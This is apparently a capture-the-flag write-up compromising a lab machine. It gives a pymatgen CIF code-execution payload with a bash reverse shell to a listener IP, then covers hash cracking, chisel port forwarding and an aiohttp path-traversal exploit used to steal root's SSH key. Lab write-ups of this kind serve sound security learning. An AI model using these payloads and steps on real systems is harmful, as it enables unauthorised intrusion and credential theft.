


Scanning the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.38
```


Let's go to `http://10.10.11.38:5000/` and see what's there


We see that this site works with CIF files. This means that the vulnerability will most likely be in the processing of these CIF files. Let's try to find [PoC](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)


So, to implement it, you need to create an arbitrary file with the `.cif` extension and insert the following into it
```CIF
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'

_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
At the moment `load_module ("os").system ("touch pwned")` the system command `touch pwned` is executed. We don't need it. It's better to build in `reverse shell`:
```CIF
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.188/4444 0>&1'");0,0,0'

_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
Save this file and upload it to the site. Run `nc` to listen to `4444` port and click the `View` button on the site opposite the uploaded file.


Let's look in `/etc/passwd` to see what users are in the system


There are 3 users: `app`, `rosa`, `root`. Let's look at the home directory of `rosa`


The first flag was found, but we can't read it. Let's look at the home directory of `app`


Let's look at the code of `app.py`. Of interest here is the password for the database and a link to connect to it
```Python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```


Now we know that there is a file `database.db`, but it is not here. Let's look at the scan results again. There is an open port `8000`. If you open `http://10.10.11.38:8000`, a page will open with the file `database.db`, which can be downloaded (this page opened at the very beginning, but when it was necessary to take a screenshot, it no longer opened). Let's open this file
```bash
sqlite3 database.db
```
Let's look at the contents of the table `user`


We are interested in the users `admin`, `app` and `rosa`. Copy each hash to separate files
```bash
echo '2861debaf8d99436a10ed6f75a252abf' > admin
```
```bash
echo '197865e46b878d9e74a0346b6d59886a' > app
```
```bash
echo '63ed86ee9f624c7b14f1d4f43dc251a5' > rosa
```


Now it remains to determine the type of hashes and break them. To determine this, we will use `hash-identifier`


This is `MD5`. Let's break them with `hashcat`
```bash
hashcat -m 0 rosa /usr/share/wordlists/rockyou.txt
```


We only managed to break the hash `rosa`
```Password
unicorniosrosados
```
Let's connect via `SSH`
The first flag is there


Let's see if there are any running services in the local network
```bash
netstat -lntp
```


There is a running service on port `8080`. We have `chisel`, which can forward this port to `Kali`



To forward the port to `Kali`, you first need to download `chisel` to `Kali`, run it there, then on `rosa`
On `Kali`
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gzip -d chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
mv chisel_1.9.1_linux_amd64 chisel
./chisel server -p 1234 --reverse
```


On `rosa`
```bash
./chisel client 10.10.14.188:1234 R:8080:localhost:8080
```


Now let's open `http://localhost:8080` on `Kali`


Let's look at the request header
```bash
curl -I http://localhost:8080
```


Server `aiohttp/3.9.1`. Most likely there is [CVE](https://github.com/wizarddos/CVE-2024-23334)


This is `Path Traversal`, so you need to find the endpoint in the source code of the page being attacked.


We'll start from `/assets`
First, let's try to read `/etc/passwd`
```bash
python exploit.py -u http://localhost:8080 -f /etc/passwd -d /assets
```


It works! Now let's steal `id_rsa` from user `root`
```bash
python exploit.py -u http://localhost:8080 -f /root/.ssh/id_rsa -d /assets
```



Copy it and create a key in `Kali`, give it permissions and connect via `SSH` to `root`
```bash
nano sshkey
chmod 700 sshkey
ssh root@10.10.11.38 -i sshkey
```


